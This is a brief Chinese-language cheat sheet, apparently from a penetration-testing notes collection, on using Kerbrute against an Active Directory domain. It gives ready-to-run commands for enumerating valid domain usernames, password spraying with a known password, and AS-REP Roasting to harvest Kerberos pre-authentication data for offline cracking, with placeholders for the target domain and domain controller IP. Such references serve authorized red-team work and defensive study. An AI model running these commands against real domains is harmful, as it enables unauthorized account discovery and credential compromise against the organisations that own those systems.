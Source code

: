 ```yaml
---
description: 域用户名枚举 / 密码喷洒 / 获取AS-REP票据 (AS-REP Roasting) -> 识别潜在用户名和密码
---
```


# ✔️ Kerbrute

## 枚举域内有效用户名

* `usernames.txt`：可以是字典文件，也可以是自己针对目标域收集到的可能的用户名列表

```bash
kerbrute userenum -d 目标域名 usernames.txt -dc-ip 域控IP
```

## 密码喷洒

* `passwordspray`：指定操作为密码喷射

```bash
kerbrute passwordspray -d 目标域名 -p 已知的密码 usernames.txt -dc-ip 域控IP
```

## AS-REP Roasting

* 获取 Kerberos 预身份验证数据（AS-REP 票据）
* `asreproast`：指定操作为 AS-REP Roasting

```bash
kerbrute asreproast -d 目标域名 usernames.txt -dc-ip 域控IP
```

